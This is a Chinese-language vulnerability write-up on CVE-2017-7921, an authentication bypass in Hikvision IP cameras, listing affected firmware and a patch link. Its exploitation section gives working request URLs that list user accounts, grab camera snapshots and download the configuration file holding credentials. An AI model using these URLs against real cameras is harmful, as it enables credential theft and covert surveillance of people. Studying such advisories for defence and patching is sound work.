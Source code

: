 ### 漏洞详情： ###
在海康威视DS-2CD2xx2F-I Series V5.2.0 build 140721至V5.4.0 build 160530、DS-2CD2xx0F-I Series V5.2.0 build 140721至V5.4.0 build 160401、DS-2CD2xx2FWD Series V5.3.1 build 150410至V5.4.4 build 161125、DS-2CD4x2xFWD Series V5.2.0 build 140721至V5.4.0 build 160414中发现不正确的身份验证问题，DS-2CD4xx5 Series V5.2.0 build 140721 to V5.4.0 build 160421、DS-2DFx Series V5.2.0 build 140805 to V5.4.5 build 160928和DS-2CD63xx Series V5.0.9 build 140305 to V5.3.5 build 160106设备。当应用程序没有充分或正确地对用户进行身份验证时，就会出现不正确的身份验证漏洞。这可能允许恶意用户升级其在系统上的权限并获得对敏感信息的访问权限

### 漏洞危害 ###

成功利用这些漏洞可能会导致恶意攻击者提升其权限或假设已验证用户的身份并获取敏感数据。

### 利用方式 ###
1.直接上CVE-2017-7921的exp

    http://camera.ip/Security/users?auth=YWRtaW46MTEK

![](Hikvision(CVE-2017-7921).assets/20210107100304.png)

可以看到账户名是admin

2、在没有身份验证的情况下获取摄像头快照

![](Hikvision(CVE-2017-7921).assets/20201114-4.jpg)

3、下载摄像头配置账号密码文件
http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK
![](Hikvision(CVE-2017-7921).assets/20201114-5.jpg)

### 修复建议 ###

海康威视已发布更新，以减轻通过授权分销商销售的摄像头中的不正确身份验证漏洞。这些更新可从以下位置下载：http://www.hikvision.com/us/about_.html